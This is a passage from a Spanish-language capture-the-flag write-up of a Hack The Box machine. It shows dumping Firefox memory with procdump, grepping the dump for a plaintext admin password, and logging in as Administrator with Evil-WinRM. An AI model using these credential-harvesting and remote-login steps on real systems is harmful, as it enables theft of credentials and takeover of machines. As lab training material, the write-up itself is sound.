 ```bash
*Evil-WinRM* PS C:\Users\Chase\Documents> dir


    Directory: C:\Users\Chase\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/7/2023  11:07 PM      304778129 firefox.exe_230507_230714.dmp
-a----         5/7/2023  11:03 PM         424856 procdump64.exe
```
Una vez hecho esto se descarga el archivo hecho por el procdump y intentamos buscar claves en el con grep.

```bash
strings firefox.exe_230507_230714.dmp | grep password
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
x:///chrome/toolkit/content/passwordmgr/
x:///chrome/en-US/locale/en-US/passwordmgr/
```
Y tenemos la password de administrator.
```bash
evil-winrm -i 10.129.190.183 -u 'Administrator' -p '4dD!5}x/re8]FBuZ'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
supportdesk\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
Hemos pwneado la maquina!!!
